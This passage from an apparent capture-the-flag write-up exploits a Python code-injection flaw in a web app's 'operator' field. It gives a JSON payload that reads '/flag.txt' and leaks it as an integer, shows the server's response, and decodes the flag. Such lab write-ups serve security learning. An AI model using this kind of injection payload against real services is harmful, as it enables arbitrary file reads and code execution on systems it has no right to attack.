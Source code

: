 Clearly we see that the web app took our `current_health`, `attack_power` and `operator` and returned that as an integer result. i.e. `100 + 22` returned `122`.

#### Exploitation

Referring back to the specific line that's vulnerable, its clear we want to inject some python code. Second we know we must target the `operator` field since the other two fields are cast with `int()`.

Finally we also know that we only receive an integer response so whatever solution needs to leak the flag as an integer. So here's the idea I came up with:

1. Open `/flag.txt`, read it as bytes.
2. Use the built in Python3 `int.from_bytes()` method to return the big endian integer version of the string.
3. Set "`current_health`" to `0`
4. Convert the received "`message`" integer back to a string for the flag.

##### JSON Payload

Here's what I sent as the request, being careful to put a semicolon after our operator payload to prevent syntax error from the `attack_power` which the server will append to our operation:

```json
{
 "current_health":"0",
 "attack_power":"43",
 "operator":"+int.from_bytes(open('/flag.txt','rb').read(),'big');"
}
```

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sun, 23 Oct 2022 06:34:31 GMT
Content-Type: application/json
Content-Length: 90
Connection: close

{"message":32715399093214716429448760121842372818350028882199757926917881424671737454973}
```

And in Python, we can convert this back to a string

```python
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(32715399093214716429448760121842372818350028882199757926917881424671737454973)
b'HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}'
```

Nice!

